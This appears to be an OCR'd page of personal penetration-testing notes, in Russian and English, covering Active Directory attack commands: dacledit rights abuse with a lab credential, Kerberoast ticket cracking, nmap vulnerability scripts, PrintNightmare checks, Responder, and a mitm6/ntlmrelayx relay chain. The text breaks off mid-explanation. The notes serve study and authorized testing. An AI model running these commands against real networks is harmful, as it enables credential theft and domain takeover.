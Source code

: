 

# dacledit 

dacledit.py -action 'write' -rights 'WriteMembers' -principal 'm.lovegod' -target 'Network Audit group' 'absolute.htb'/'m.lovegod:AbsoluteLDAP2022!' -k -dc-ip 10.10.11.181

# Для взлома билета удаленной (SPN) службы используется скрипт tgsrepcrack.py из репозитория Kerberoast. 

python tgsrepcrack.py wordlist.txt 1-40a10000-Bob@MSSQLSERVER~SQL-Server.testdomain.com~1433-TESTDOMAIN.COM.kirbi


# скрипты для сканирования уязвимостей
script vuln -p 80 ip скрипты уязвимостей
nmap [host] --script vuln -sV
https://github.com/SkillfactoryCoding/HACKER-OS-nmap.vulners
https://github.com/SkillfactoryCoding/HACKER-OS-vulscan

printnightMare (135 port)
impacket-rpcdump @10.10.211.217 | egrep 'MS-RPRN|MS-PAR'

# Responder (слушаем интерфейс) IPv4

sudo responder -I tun0 -wdF

sudo tcpdump -i wlan0 icmp

# mitm6 слушаем IPv6 (поддельный DHCPv6-сервер)

 	1. sudo mitm6 -d bank.ats --ignore-nofqdn
	Пояснение:

	mitm6 — инструмент, который выдает себя за DHCPv6-сервер в локальной сети.

	-d bank.ats — указывает домен, для которого mitm6 будет авторитетным DNS-сервером (в данном случае bank.ats).

	--ignore-nofqdn — опция позволяет обрабатывать запросы даже от клиентов, не имеющих полного доменного имени (FQDN) .

	Что происходит: Mitm6 использует тот факт, что Windows (начиная с Vista) по умолчанию запрашивает конфигурацию IPv6 через DHCPv6. Он отвечает на эти запросы, назначая клиентам IPv6-адреса и указывая себя в качестве DNS-сервера. Поскольку IPv6 имеет приоритет над IPv4 в Windows, все DNS-запросы (включая IPv4) начинают направляться на сервер злоумышленника .

	2. Запуск ntlmrelayx для перехвата и ретрансляции запросов

	sudo ntlmrelayx.py -6 -t ldaps://dc.bank.ats -wh fakewpad.bank.ats -l lootdir
	Пояснение параметров:

